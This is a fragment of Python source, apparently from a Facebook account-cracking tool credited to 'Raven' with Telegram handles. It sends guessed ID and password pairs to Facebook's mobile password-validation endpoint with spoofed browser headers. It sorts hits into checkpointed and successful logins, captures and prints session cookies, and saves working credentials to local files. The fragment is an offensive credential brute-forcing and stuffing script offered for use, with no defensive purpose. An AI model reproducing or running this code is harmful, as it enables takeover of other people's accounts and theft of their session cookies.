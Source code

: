             heade = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="109", "Google Chrome";v="109"', 'sec-ch-ua-mobile': '?0', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent':ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
            po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False)
            if "checkpoint" in po.cookies.get_dict().keys():
                print(f'\033[1;31m7AJI-CP   \033[1;31m{idf} |  \033[1;31m{pw}  ')
                open('CP/'+cpc,'a').write(idf+' • '+pw+'\n')
                akun.append(idf+' • '+pw)
                cp+=1
                break
            elif "c_user" in ses.cookies.get_dict().keys():
                ok+=1
                coki=po.cookies.get_dict()
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print(f'\r\x1b[32[7AJI-OK✔]\033[1;32m   {idf} | \033[1;32m{pw} | \033[1;32m{kuki}')
                open('OK/'+okc,'a').write(idf+' • '+pw+'\n')
                
                break
                
            else:
                continue
        except requests.exceptions.ConnectionError:
            time.sleep(31)
    loop+=1
 
 
#-----------------------[ SYSTEM-CONTROL ]--------------------#
 
if __name__=='__main__':
    try:os.mkdir('OK')
    except:pass
    try:os.mkdir('CP')
    except:pass
    try:os.system('touch .prox.txt')
    except:pass
menu()

# Decode By Raven Tool...
# Copyright : Raven [ @MPMPK ]
# Follow us on Telegram ( @ZZKGZ )